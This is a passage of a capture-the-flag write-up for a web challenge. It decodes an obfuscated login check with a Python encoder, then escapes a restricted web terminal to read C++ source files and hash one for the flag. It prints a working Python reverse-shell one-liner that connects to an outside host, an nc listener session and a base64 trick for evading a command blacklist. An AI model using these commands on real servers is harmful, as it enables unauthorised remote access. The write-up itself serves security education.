003addfcsyQWxXrgHaddfcsyepwVWSnaddfcsyWBzvMkNprfskagprfskagprfskag
							gets broken into
003		addfcsy		QWxXrgH		addfcsy		epwVWSn		addfcsy		WBzvMkN
$n_b 	$o_p[0]		chr(104)	$o_p[0]     chr(51)		$o_p[0]		chr(121)
		checkchr				checkchr				checkchr


prfskag		prfskag		prfskag
$o_p[1]		$o_p[1]		$o_p[1]
$cp_as++	$cp_as++	$cp_as++

$cp_as is then used to count the number of interpreted characters to add into the $ff.


With this, $o_p is actually a ist of 2 opcodes, namely "add" (0: "addfcsy") and "print" (1: "prfskag").

```

The function variables can be renamed to make it simpler to read overall, but that is left as an exercise for the reader.

In order to circumvent this, we write a script that converts any ordinary inputs into this esolang.

```python
def e(c):
    map = ['Opqrxea', 'ANLJRVk', 'EScjuEG', 'CEmgkfD', 'LWALkyB', 'gLjkqyp', 'GvYVrmr', 'aIxyJZh', 'fqVwOyg', 'lXxyjfj', 'UrlqByv', 'oCwLSyb', 'SemPyyj', 'veVBFhO', 'QiJeMfv', 'dLidLIt', 'huEgzOl', 'SNOErcO', 'OoYEuGy', 'epwVWSn', 'IMyaiFa', 'nFeVCfF', 'mBxBbDt', 'qwzfBaa', 'mnPGhJe', 'cYXBLjI', 'tPnwOhx', 'kcFmDTn', 'mnGXTtR', 'cYsOMqV', 'TtectWk', 'AhrCNWr', 'NPPwTon', 'pzoxOWy', 'WhadeDe', 'TppMLJW', 'HpmvTME', 'WwYbPuL', 'PdrJXAH', 'isMKsKm', 'iYwhcbH', 'HmrMqZu', 'bCEmltX', 'VfCsIDS', 'KHjXSyd', 'tnQyknq', 'oCCEJWA', 'LvNqLUa', 'rmxlpqX', 'zlfTcUF', 'TYDGHDv', 'IthZxkp', 'WaPwKGw', 'xjAIApz', 'wXOcRiC', 'yYOZGcb', 'dgIFawK', 'qDswmPq', 'CCqbJfl', 'klEWNAL', 'FIYnPHz', 'SYGAsjS', 'gJIxAsH', 'sYLIjAd', 'gBVQDux', 'lVTZSYX', 'EJDZDRY', 'YuNmQaP', 'nxvIJmj', 'ElXMaED', 'hdUArEw', 'EmhtOrG', 'QWxXrgH', 'RHmQeWB', 'cOjcUFb', 'mBangka', 'nfONPDr', 'IiqdDLe', 'DuxLxmB', 'eybzzEw', 'EoSHwOc', 'fWaKlSw', 'GUXjVQe', 'wkcrJDg', 'AryGpcw', 'vZKwcfD', 'ewsxZCt', 'frcnbGg', 'dJvaPUk', 'WBzvMkN', 'bYZlfVi', 'jZRIfsL', 'eoyKoRC', 'bClRQHE', 'DhZGeEa']
    output = ""
    size = len(c)# Find length of original string
    if size >= 100 :
        output += str(size)# Since the front is 3 characters, there is no need to do anything but append the number into the output.
    elif 10 <= size < 100 :
        output += "0" # Adds 'a' 0 infront of the 2 characters to make it into 3.
        output += str(size)
    elif size < 10: 
        output += "00" # Adds 2 '0's infront of the 1 character to make it into 3.
        output += str(size)
    
    opcodes = ["addfcsy","prfskag"] 
    for i in c:
        output += opcodes[0] # Adds opcode "add" infront of each obfuscated character.
        output += map[ord(i)-32] # Adds the 7 character block corresponding to the ASCII decimal value of the original character.
        
    for i in range(0, len(c)):
        output += opcodes[1] # Appends the corect number of opcode "print" to the output. 
    return output
    
username = e("Barry")
password = e("whAteVERth1SisIDONTrealLyCaR3")
print(username + "\n\n" + password)

```

The output is shown below:

```
005addfcsyWhadeDeaddfcsylVTZSYXaddfcsyGUXjVQeaddfcsyGUXjVQeaddfcsyWBzvMkNprfskagprfskagprfskagprfskagprfskag

029addfcsyfrcnbGgaddfcsyQWxXrgHaddfcsypzoxOWyaddfcsyAryGpcwaddfcsyElXMaEDaddfcsywXOcRiCaddfcsyWwYbPuLaddfcsyTYDGHDvaddfcsyAryGpcwaddfcsyQWxXrgHaddfcsySNOErcOaddfcsyIthZxkpaddfcsyRHmQeWBaddfcsywkcrJDgaddfcsyHmrMqZuaddfcsyHpmvTMEaddfcsyLvNqLUaaddfcsyoCCEJWAaddfcsyWaPwKGwaddfcsyGUXjVQeaddfcsyElXMaEDaddfcsylVTZSYXaddfcsynfONPDraddfcsyKHjXSydaddfcsyWBzvMkNaddfcsyTppMLJWaddfcsylVTZSYXaddfcsyTYDGHDvaddfcsyepwVWSnprfskagprfskagprfskagprfskagprfskagprfskagprfskagprfskagprfskagprfskagprfskagprfskagprfskagprfskagprfskagprfskagprfskagprfskagprfskagprfskagprfskagprfskagprfskagprfskagprfskagprfskagprfskagprfskagprfskag
```

With that, the credentials are passed.


### The Terminal

_______

We arrive at this page.


Seems like a way to get the source files! 

If we do `ls`, we get this:

```bash
$ ls
decoder.php encryptedcheck.php images images.html index.html login.php profilepics style.css stylec.css styleh.css styles.css terminal.php videos videos.html
```

Nothing important. How about `ls ../` ?

```bash
$ ls ../
EthanCode TVOIT
```

With `ls ../EthanCode`:

```bash
$ ls ../EthanCode
BMI.cpp BubbleSwap.cpp IdentityMatrix.cpp Pyramid.cpp ShuffleCards.cpp StringPlay.cpp TriangleTypes.cpp loldev.cpp
```

Cool! The source files are here! However, if we try to check for the contents with `cat` we get this error.

```
Disabled Command. You really thought this was it, didn't you?
```

Shucks. Barry is making this harder and everyone does not like that.

Maybe we can try directly `md5sum` all source files and do a trial-and-error?

```
Disabled Command. You really thought this was it, didn't you?
```

Nope.

Viewing the source code of this page will reveal this comment:

```html
<!--
Online FST is just too dangerous. Which is why for now, I have disabled practically all of the commands. 
I mean, I have my own shell at home, so why should I even bother with a web shell? 
Besides, remote ssh is more fun than playing with this web shell...

Note to self: My friend's embarassing stuff can be found outside this directory. 
-->
```

Hmm, what can we do now?

As it turns out, while Barry did disable most commands, he forgot one that seems innocent: `python3`

With this, we can in fact spawn a reverse shell in this page. Do note that you need to `ssh` into a public server or port-forward in order for this to work.

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("infocommsociety.com",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

In this case, using the public server `infocommsociety.com` , we can listen on port `9999`:

```bash
nc -lnvp 9999
Listening on [0.0.0.0] (family 0, port 9999)
```

Submitting the python reverse shell will hang the page, but this allows us to gain access to Barry's server, where the commands are not disabled.

```bash
nc -lnvp 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from 172.104.181.218 51206 received!
/bin/sh: 0: can't access tty; job control turned off
$ ls
decoder.php
encryptedcheck.php
images
images.html
index.html
login.php
profilepics
style.css
stylec.css
styleh.css
styles.css
terminal.php
videos
videos.html

$ cd ..

$ ls
EthanCode
TVOIT

$ cd EthanCode

$ ls
BMI.cpp
BubbleSwap.cpp
IdentityMatrix.cpp
Pyramid.cpp
ShuffleCards.cpp
StringPlay.cpp
TriangleTypes.cpp
loldev.cpp

$ cat BMI.cpp
#include <iostream>
#include <cstdlib>
#include <cmath>
#include <array>
using namespace std;

int main() {

  cout << "This is a BMI calculator." <<endl;

  double weight = 0;
  double height = 0;

  while(true)
    {
        cout << "Key in ur weight (in kg) : ";
  cin >> weight;
  cout << endl;

  cout << "Key in ur height (in m): ";
  cin >> height;
  cout << endl;


    while(height > 2)
    {
        cout << "This is not your actual height. Please Key in Again." << endl;
        cout << "Key in ur height (in m): ";
        cin >> height;
        cout << endl;


    }


  double BMI = weight / (height * height);

  if (BMI < 18.5) {
    cout << "You are underweight." << endl;
  }

  if (BMI >= 18.5 && BMI < 25) {
    cout << "Your weight is acceptable." << endl;
  }

  if (BMI >= 25) {
    cout << "You are overweight." << endl;
  }

  char reply;

  cout << endl;
  cout << "Would you want to try it again? (Y or N): ";
  cin >> reply;
  if (reply == 'N') {

   break;
  }


    }
  cout << "Okay, see you next time.." << endl;
  return 0;


}

$ md5sum BMI.cpp
d3219944dd85c43e85ee253cdbe95aa1  BMI.cpp
```

In this case, the C++ source file in question is `BMI.cpp`, and we can obtain the `md5sum` of this source file as ` d3219944dd85c43e85ee253cdbe95aa1`.


### Alternate Method

______

This method was discovered by @throwaway, who managed to get a `md5sum` without any reverse shell.

```bash
bash -c "$(echo 'bWQ1c3VtCg=='|base64 -d) ../EthanCode/BMI*"
```

In essence, `md5sum` is disguised with Base64, which gets passed by the blacklist, before being converted back and executed.


### Flag

_______

With the `md5sum` calculated, we just have to enclose this within IRS{}, and we will get:

```
IRS{d3219944dd85c43e85ee253cdbe95aa1}
```


### Conclusion

__________

Wow, that was such a lengthy process. Hopefully this little box-like challenge will show that many different categories of Cybersecurity can all be linked up together in one big scenario.

